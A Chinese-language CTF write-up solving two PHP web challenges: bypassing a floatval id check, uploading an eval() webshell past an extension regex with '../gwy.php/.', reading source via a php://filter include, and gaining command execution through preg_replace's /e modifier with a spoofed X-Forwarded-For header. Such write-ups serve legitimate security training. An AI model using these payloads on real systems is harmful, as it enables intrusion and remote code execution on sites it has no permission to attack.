








虽然是考试周，可是实在不想天天刷题，写写CTF，承包一整天的快乐。

## 工控云管理系统项目管理页面解析漏洞
打开题目，读到源码，进行审计。

    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die(" something wae wrong !  ");
      if($result){
        echo "id: ".$result->id." ";
        echo "name:".$result->user." ";
        $_SESSION['admin'] = True;
      }
     ?>
这里首先需要admin权限，需要绕过id的过滤：
`      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9')`
这个的意思就是，将id浮点化之后仍然是1，并且id是以9结尾的。

可以使用`id=1--9`绕过，就是中间加上字符，浮点化就会舍弃后面的部分，但是字符串本身没有改变。
可以看到结果如下

下来是第二段代码

    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>
在第一段已经获得admin之后，if可以通过。然后post进来三个参数。
这里的php正则，具体的东西我没有仔细学，之后补一补，看看大佬的wp说这个是只过滤了最后一个"."后面的东西。

可以使用`../filename/.`来过滤，因为backup这个文件夹并没有用到，而是uploaded这个文件夹。

然后就把自己的木马写进去就OK。附上payload。

`con=<?php @eval($_POST['gwy2333']);?>&file=../gwy.php/.`

记住是POST，一开始忘了，GET了半天。

这时候再次访问uploaded/gwy.php，没有出现404，说明已经写好了。开启中国蚁剑。

测试一下，连接成功。直接去找flag。在html目录底下找见了flag。

## 后门入侵系统
打开网站，出现page这个GET的参数，联想到文件包含读源码的漏洞，读一读index.php。
`/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`

base64解码后得到源码。进行审计。

	<?php
	if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
	    echo " Welcome My Admin !  ";
	    $pattern = $_GET[pat];
	    $replacement = $_GET[rep];
	    $subject = $_GET[sub];
	    if (isset($pattern) && isset($replacement) && isset($subject)) {
	        preg_replace($pattern, $replacement, $subject);
	    }else{
	        die();
	    }
	}
	?>

XFF改成127.0.0.1之后，GET进来三个参数。这里调用了preg_replace函数。并且没有对pat进行过滤，所以可以传入"/e"触发漏洞。

首先使用phpinfo看一下能不能执行，发现可以。

之后使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。

`rep=system("cd+s3chahahaDir/flag+%26%26+ls")`
注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.

拿到flag，安心复习。
